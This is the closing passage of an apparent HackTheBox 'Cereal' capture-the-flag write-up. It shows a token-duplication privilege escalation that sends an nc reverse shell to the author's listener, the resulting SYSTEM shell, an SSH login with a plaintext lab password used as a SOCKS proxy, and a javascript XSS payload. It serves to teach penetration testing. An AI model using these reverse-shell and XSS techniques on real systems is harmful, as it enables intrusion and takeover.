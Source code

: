 It receives a request from a process running as SYSTEM, duplicates the token, launches `nc`, and exits. At my `nc` listener, it returns a shell:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.217] 51109
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
nt authority\system

```

And I can grab the final flag:

```

PS C:\users\administrator\desktop> type root.txt
712cc9bf************************

```

## Beyond Root

My theory was that I couldn’t access `/admin` on the main page because of the IP restrictions. Once I had SSH as sonny, I wanted to test that. I connected the SSH using `-D` to create a socks proxy going over the SSH session:

```

oxdf@parrot$ sshpass -p 'mutual.madden.manner38974' ssh sonny@10.10.10.217 -D 8888
Microsoft Windows [Version 10.0.17763.1817]
(c) 2018 Microsoft Corporation. All rights reserved. 

sonny@CEREAL C:\Users\sonny>

```

I created a new proxy in FoxyProxy:

![image-20210527145430876](https://0xdfimages.gitlab.io/img/image-20210527145430876.png)

When I enable this, it will try to proxy all Firefox traffic through localhost port 8888. I’ll file a couple cereal requests (they seem to get cleared as the admin views them), and then load `/admin`. It worked!

![image-20210527145530251](https://0xdfimages.gitlab.io/img/image-20210527145530251.png)

```

[XSS](javascript: document.write%28%22<script>alert(1)</script>%22%29)

```

[Unintended Root »](/2021/05/31/htb-cereal-unintended.html)